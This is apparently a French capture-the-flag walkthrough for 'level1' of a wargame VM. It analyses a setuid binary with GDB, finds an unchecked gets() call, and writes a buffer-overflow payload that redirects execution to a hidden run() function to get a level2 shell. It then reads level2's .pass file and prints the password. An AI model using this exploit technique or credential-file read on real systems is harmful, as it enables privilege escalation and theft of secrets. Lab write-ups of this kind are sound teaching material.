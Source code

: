 WALKTHROUGH LEVEL1 

---> pwd : /home/user/level1

# ls
---> #ls -la :
total 17
dr-xr-x---+ 1 level1 level1   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level1 level1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level1 level1 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
-rw-r--r--+ 1 level1 level1   65 Sep 23  2015 .pass
-rw-r--r--  1 level1 level1  675 Apr  3  2012 .profile

=> nous disposons d'un fichier level1, appartenant à level2. Pour les 
permissions user/group/other :
- permission s sur la partie user : bit SUID (setuid) activé donc il ne
	s'exécute qu'avec les privilèges du owner (ici level2) et non avec les
	privilèges du user (ici level1)
- permission s sur la partie group : bit GUID (getuid) activé sur 
	l'execution. Quand ce fichier est exécuté, le processus s'exécute avec
	les permissions du groupe owner (level2) en plus de celles de l'owner
	du fichier.
- permission + : des ACL (listes de contrôle d'accès) sont appliquées.

# getfacl
---> getfacl level1 (pour voir les ACL) : 
#file: level1
#owner: level2
#group: users
#flags: ss-
user::rwx
user:level2:r-x
user:level1:r-x
group::---
mask::r-x
other::---

# file
---> file level1 (quel est le type de ce fichier)
level1: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1
(SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID
[sha1]=0x099e580e4b9d2f1ea30ee82a22229942b231f2e0, not stripped

=> A retenir des info de file : 
- setuid et getuid : le processus s'execute avec les droits du owner et du
	group owner
- version 1 (SYSV) : compilé avec le standard SYSV (= System V, version
	historique de UNIX developpée par AT&T, entreprise de telecommunication
	américaine) SYSV est la base du système Posix, utilisé par Linux
- dynamically linked : Au lieu d'intégrer le code de chaque bibliothèque 
	utilisée directement dans l'exécutable final (comme c'est le cas avec 
	le lien statique), un programme dynamiquement lié contient des 
	références aux bibliothèques qu'il utilise. Lorsque le programme est 
	exécuté, le système d'exploitation charge ces bibliothèques en mémoire.
- not stripped : donc contient des symboles de débogage

---> ./level1
Ne fait rien. Le programme attend une entrée puis s'arrête apres enter

# disas main
---> GDB : gdb level1 / disas main 

Dump of assembler code for function main:
   0x08048480 <+0>:		push   %ebp	/Save la base pointer actuelle sur la pile.
   0x08048481 <+1>:		mov    %esp,%ebp /Cree un nv base pointer pour la fct
   0x08048483 <+3>:		and    $0xfffffff0,%esp /Aligne le pointer sur 16o perf
   0x08048486 <+6>:		sub    $0x50,%esp /Alloc 1 buffer de 80o sur stack
   0x08048489 <+9>:		lea    0x10(%esp),%eax /charge l'adresse du tampon dans le registre eax avec 16o en plus... C'est la que commence le tampon !
   0x0804848d <+13>:	mov    %eax,(%esp) /place le debut du tampon sur le haut de la stack pour que gets puisse l'utiliser comme argument
   0x08048490 <+16>:	call   0x8048340 <gets@plt> /appel de la fonction gets
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.

=> on repère les call : on a l'appel a une fonction gets@plt
PLT = Procedure Linkage Table. Cela sert a appeler des fonctions externes
dont l'adresse est inconnue au moment du linking et qui ne sera connue qu'au
moment de la liaison dynamique lors de l'exécution.

Donc le programme appelle la fonction gets d'une bibliothèque partagée. La
fonction gets est une fonction C connue pour sa vulnérabilité aux débordements
de tampon !! En effet, elle ne vérifie pas la taille de l'entrée par rapport à
la taille du tampon de destination. Elle continuera à lire les caractères et à 
les stocker dans le tampon jusqu'à ce qu'elle rencontre une nouvelle ligne ou 
la fin de fichier, sans se soucier des limites du tampon.

Ce tampon est de 80 octets (0x50)

On va essayer de faire un Buffer Overflow, surtout que sur cette VM, les
protections Canary sont désactivées...

# Info function
---> GDB : gdb level1 / #info function (liste toutes les fonctions du programme)

All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini

=> la plupart des fonctions répertoriées (gets, fwrite, system) font partie de
bibliothèques partagées comme l'atteste le @plt qui suit. Il reste deux fonctions
propres au programme level1 : main et run. Lorsqu'on a desassemblé la fonction 
main, on n'a pas vu d'appel à run... Alors ?

---> GDB : set disassembly-flavor intel
Ce debugger peut utiliser 2 syntaxes :
- AT&T (La source est spécifiée avant la destination)
- Intel (la destination est spécifiée avant la source) et donne des précisions

# disas run
---> GDB : gdb level1 / disas run

Dump of assembler code for function run:
   0x08048444 <+0>:		push   ebp /-> debut de la fonction run
   0x08048445 <+1>:		mov    ebp,esp
   0x08048447 <+3>:		sub    esp,0x18
   0x0804844a <+6>:		mov    eax,ds:0x80497c0
   0x0804844f <+11>:	mov    edx,eax
   0x08048451 <+13>:	mov    eax,0x8048570
   0x08048456 <+18>:	mov    DWORD PTR [esp+0xc],edx
   0x0804845a <+22>:	mov    DWORD PTR [esp+0x8],0x13
   0x08048462 <+30>:	mov    DWORD PTR [esp+0x4],0x1
   0x0804846a <+38>:	mov    DWORD PTR [esp],eax
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	mov    DWORD PTR [esp],0x8048584 /-> argument de la fct system qui suit
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave  
   0x0804847f <+59>:	ret    
End of assembler dump.

=> A retenir de ces info : 
- la fonction run commence a l'offset 0x08048444
- la syntaxe Intel nous avertit que certaines opérations sont effectuées avec
	un type de données DWORD PTR, càd un double word 32 bits
- run envoie a la fonction system() un argument enregistré sur l'offset 0x8048584
system() sert a executer une commande shell. L'adresse placée avant est la
commande à exécuter ! 

On vérifie avec : gdb x/s 0x8048584
0x8048584:	 "/bin/sh"

Si on vérifie les autres offset présents dans la fonction run : 
gdb x/s 0x80497c0 -> 0x80497c0 <stdout@@GLIBC_2.0>:	 ""
gdb x/s 0x8048570 -> 0x8048570:	 "Good... Wait what?\n"

Mmmmmh... Attend, quoi ?

DONC la commande run, repertoriée dans le programme level1, lance un shell...
Mais elle écrit d'abord un texte : Good... Wait what?
L'objectif est donc de forcer l'appel a la fonction run, grâce à un buffer
overflow. 

---> On va faire un buffer overflow : 
on veut envoyer 80 caractères en guise d'input pour notre programme. 
donc on va créer un fichier /tmp/buffertrick et l'injecter via gdb : 
he
1) creation du fichier :
python -c 'print "a"*80' > /tmp/buffertrick
cat /tmp/buffertrick
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

2) injection :
gdb level1
run < /tmp/buffertrick
Starting program: /home/user/level1/level1 < /tmp/buffertrick

Program received signal SIGSEGV, Segmentation fault.
0x61616161 in ?? ()

Ok Donc avec 80 caractères, on a bien un buffer overflow -> segfault !

3) ajout du pointeur dans notre script :
on sait que la commande run commence à l'adresse 0x08048444
Au lieu de mettre 80 caractères de padding, on en met 76 et les 4 derniers
seront consacrés à l'ajoute de cette adresse sous le forma little-endian
(c'est à dire qu'on la rentre à l'envers)

python -c 'print "a"*76+"\x44\x84\x04\x08"' > /tmp/buffertrick

4) injection dans run :

cat /tmp/buffertrick | ./level1
Cela segfault immédiatement. Le trick : on veut que notre cat reste ouvert
et puisse recevoir un input depuis l'entrée standard, sinon le programme
s'exécute trop vite et on n'a pas le temps de faire notre commande. Cela est
possible en ajoutant - avant le pipe : cela laisse ouvert notre cat, qui reste
en attente d'une entrée via standard + enter.

cat /tmp/buffertrick - | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77